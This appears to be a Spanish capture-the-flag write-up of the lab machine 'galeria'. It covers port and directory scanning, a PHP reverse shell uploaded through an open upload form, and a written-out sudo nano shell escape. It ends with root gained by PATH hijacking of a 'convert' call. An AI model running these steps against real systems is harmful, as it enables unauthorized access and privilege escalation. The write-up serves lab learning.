










# Máquina galeria

---

Dificultad -> Fácil

---

Primero hago un nmap para ver los puertos abiertos

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```sh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Gallery
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

Solo 80, asi que entro desde el navegador, encuentro una especie de galería con fotos



Antes de nada, con `gobuster`, vusto directorios y archivos en la web

```shell
gobuster dir -u http://172.17.0.2 --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64
```

```shell
/gallery              (Status: 301) [Size: 310] [--> http://172.17.0.2/gallery/]
/server-status        (Status: 403) [Size: 275]
```

Encuentra solo un directorio, `/gallery`, dentro encuentro una carpeta, uploads



En `/gallery/uploads`, encuentro un archivo php y una carpeta imagenes donde estan las imagenes del principio, miro el ph y veo que es para subir archivos:



Viendo esto, pruebo a subir una revshell en php



Lo sube correctamente, encuentro que los archivos subidos están en `/gallery/uploads/images/`



Sabiendo esto, lo ejecuto mientras que escucho desde mi máquina con netcat y consigo acceso como `www-data`



Antes de nada, como siempre hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#), luego pruebo ha hacer un `sudo -l` y encuentro que puedo ejecutar `/bin/nano` como gallery

Viendo esto, busco en [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) y sigo los pasos para abrir una terminal como gallery:

```shell
sudo -u gallery nano
^R^X
reset; bash 1>&0 2>&0
clear
```

Ahora como el usuario `gallery`, hago otro `sudo -l` y veo que puedo ejecutar `runme` como root



Al ejecutarlo dice que no encuentra el comando `convert`



Si nos fijamos, en el `sudo -l` pone **`env_keep+=PATH`**, si convert no se está llamando con ruta absoluta (`/usr/bin/convert`), se puede modificar la variable `PATH` para que se ejecute otro archivo llamado `convert`

Para hacer esto, voy a tmp, creo un script llamado `convert` que abra una bash y le doy permisos de ejecucción



Ahora, unicamente exporto la variable `PATH` y ejecuto `runme` con sudo



Y somos root :)
